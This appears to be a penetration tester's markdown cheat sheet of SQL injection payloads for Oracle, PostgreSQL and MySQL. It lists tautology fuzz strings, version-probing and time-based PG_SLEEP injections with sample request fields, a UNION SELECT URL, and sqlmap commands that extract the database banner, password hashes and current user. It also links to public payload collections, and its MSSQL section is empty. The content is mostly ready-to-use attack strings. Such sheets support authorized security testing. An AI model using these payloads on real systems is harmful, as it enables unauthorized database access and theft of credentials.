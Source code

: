 # SQLi

## ORACLE

**Fuzzing**

' or '1'='1
' or '1'='1' --
') AND ('1'='1


**Confirm DB version**

' or (SELECT BANNER FROM v$version)='Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production

') AND ((SELECT BANNER FROM v$version)='Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production

**Confirm/Control Rows and Columns**

' or '1'='1' ORDER BY 7 OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY --

**sqlmap**

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE -p tradeTypes

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE -p tradeTypes --banner --passwords --current-user

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE --flush-session

**Payloads**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md


## PostgreSQL

**Fuzzing**

1 AND 1::int=1      (You can determine that the backend database engine is PostgreSQL by using the :: cast operator.)

 
' AND 2164=(SELECT 2164 FROM PG_SLEEP(5))-- XYZ
');SELECT PG_SLEEP(5)--
');(SELECT 4564 FROM PG_SLEEP(5))--  

Example: "ProductId": "ABCD0003' AND 2164=(SELECT 2164 FROM PG_SLEEP(5))-- XYZ", ....
Example: "ProductId": "ABCD0003');SELECT PG_SLEEP(5)--XYZ", ...
EXAMPLE: handle=xxx&display_name=xxx&invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(5))--&age=25&terms=on&rules=on
          

**Confirm DB version**

https://www.example.com/store.php?id=1 UNION ALL SELECT NULL,version(),NULL LIMIT 1 OFFSET 1--


**Payloads**
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

## MySQL

**Fuzzing**

' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
,') or 1=1;-- 


**payloads**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

**CheatSheets**
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

## MSSQL


# Manual using Wfuzz

https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md



